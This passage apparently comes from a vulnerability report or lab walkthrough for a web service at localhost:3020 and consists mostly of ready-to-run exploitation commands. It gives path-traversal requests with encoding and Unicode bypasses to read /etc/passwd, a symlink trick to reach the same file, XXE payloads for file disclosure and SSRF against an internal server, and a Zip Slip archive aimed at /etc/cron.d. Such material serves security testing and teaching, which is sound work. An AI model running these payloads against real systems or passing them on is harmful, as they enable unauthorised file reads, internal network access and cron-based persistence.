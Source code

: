 #### 4.4 Document Download Path Traversal
**Location:** `/api/documents/download/{category}/{filename}`
**Exploitation:**
```bash
# Multiple encoding techniques
curl "http://localhost:3020/api/documents/download/../../../../../etc/passwd"
curl "http://localhost:3020/api/documents/download/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
curl "http://localhost:3020/api/documents/download/..%252f..%252f..%252fetc%252fpasswd"

# Unicode normalization bypass
curl "http://localhost:3020/api/documents/download/％２Ｅ％２Ｅ％２Ｆ/passwd"
```

#### 4.5 Symbolic Link Exploitation
**Location:** `/api/files/link`
**Exploitation:**
```bash
# Create symbolic link to sensitive files
curl -X POST "http://localhost:3020/api/files/link" \
  -H "Content-Type: application/json" \
  -d '{"link":"passwd_link","target":"/etc/passwd"}'

# Access through the link
curl "http://localhost:3020/api/files/read/passwd_link"
```

### 5. Additional Vulnerabilities

#### 5.1 XML External Entity (XXE) Injection
**Location:** `/api/documents/parse/xml`
**Exploitation:**
```xml
# File disclosure via XXE
curl -X POST "http://localhost:3020/api/documents/parse/xml" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>'

# SSRF via XXE
curl -X POST "http://localhost:3020/api/documents/parse/xml" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "http://internal-server/admin">
]>
<data>&xxe;</data>'
```

#### 5.2 Zip Slip Vulnerability
**Location:** `/api/documents/extract`
**Exploitation:**
```bash
# Create malicious zip with directory traversal
zip evil.zip ../../../etc/cron.d/evil_cron

# Upload and extract
curl -X POST "http://localhost:3020/api/documents/extract" \
  -F "archive=@evil.zip"
```
